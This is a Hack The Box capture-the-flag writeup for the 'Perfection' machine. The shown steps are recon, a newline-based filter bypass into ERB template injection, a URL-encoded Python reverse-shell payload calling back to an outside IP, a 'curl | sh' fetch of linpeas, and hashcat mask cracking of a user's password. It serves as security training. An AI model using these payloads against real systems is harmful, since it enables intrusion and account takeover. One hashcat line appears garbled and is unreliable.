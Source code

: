 # Perfection

A writeup for the machine [Perfection](https://app.hackthebox.com/machines/Perfection) on Hack The Box.

<Image src={require("./banner.webp").default} height="500" />

## Footprinting

### Nmap scan

Firstly, we can start with a nmap scan.

We find two open ports with one web servers publicly accessible.

```bash
nmap -sS <HOST>
```

```
22 -> SSH
80 -> HTTP
```

<Image src={require("./nmap.webp").default} />

### Web server

The web server is running a simple website with an home page and a weight calculator form.

<Image src={require("./homepage.webp").default} />

<Image src={require("./calculator.webp").default} />

We can try to fuzz the website to find hidden directories.

```bash
gobuster dir -u http://<HOST> -w /usr/share/wordlists/dirb/common.txt
```

No hidden directories are found.

If we open a 404 page, we can see that the server is running `Sinatra`, a Ruby web framework.

<Image src={require("./sinatra.webp").default} />

## User flag

### Weight calculator

The only interesting thing we can find is the weight calculator form.

We can try to test it with Burp Repeater to see if it's vulnerable.

It is required to insert an overall weight of 100 otherwise a block message is shown.

If correct weights are inserted, with categories and grades as alphanumeric characters, the application shows a message with the data inserted.

<Image src={require("./burp-repeater.webp").default} />

### SSTI

This last test is interesting because it seems that the application is vulnerable to Server-Side Template Injection (SSTI).

Special characters are not allowed but still the form seems vulnerable to SSTI.

By looking online, we can find that %0A is a newline character and can be used to bypass the filter.

After that, we have to urlencode the payload and insert it in the form.

<Image src={require("./burp-ssti.webp").default} />

### Reverse shell

To get a reverse shell, we can use the following payload.

```
category1=A%0A
%3C%25=%20system(%22whoami%22)%20%25%3E
%3C%25=%20%60python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.155%22,1337));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)'%60%20%25%3E
&grade1=11&weight1=20&category2=2&grade2=11&weight2=20&category3=3&grade3=11&weight3=20&category4=4&grade4=11&weight4=20&category5=5&grade5=11&weight5=20
```

<Image src={require("./cyberchef.webp").default} />

<Image src={require("./rev-shell.webp").default} />

## Root flag

### Users database

Inside the home directory of Susan there is the source code of the web application and a folder called migration.

In the latter, we can find a Sqlite database file.

<Image src={require("./database.webp").default} />

The database contains only a table with some users and their hashed passwords.

```bash
strings pupilpath_credentials.db
```

<Image src={require("./password.webp").default} />


### First cracking attempt

The hashing algorithm used for the password seems SHA-256.

However, cracking the password with common wordlists does not give any result.

```bash
hashcat -m 1430 -a 0 -oabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f /usr/share/wordlists/rockyou.txt
```

### Scan with LinPEAS

We can try to scan with LinPEAS to find interesting files and configurations.

```bash
# In the host
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python3 -m http.server
```

```bash
# In the target
curl IP:PORT/linpeas.sh | sh
```

<Image src={require("./linpeas.webp").default} />

There is a mail file for Susan accessible both by the user and the root.

```bash
cat /var/mail/susan
```

<Image src={require("./mail.webp").default} />

### Cracking the password

Inside we find the correct password format.

```
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

susan_nasus_ddddddddd
```

It is possible to use Hashcat with a specific mask to crack the password.

```sh
hashcat -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d -m 1400
```

<Image src={require("./hashcat.webp").default} /> 

We can now login through SSH as Susan and retrieve the root flag by switching to the root user.

```bash
ssh susan@MACHINE_IP
# ...
sudo su
```

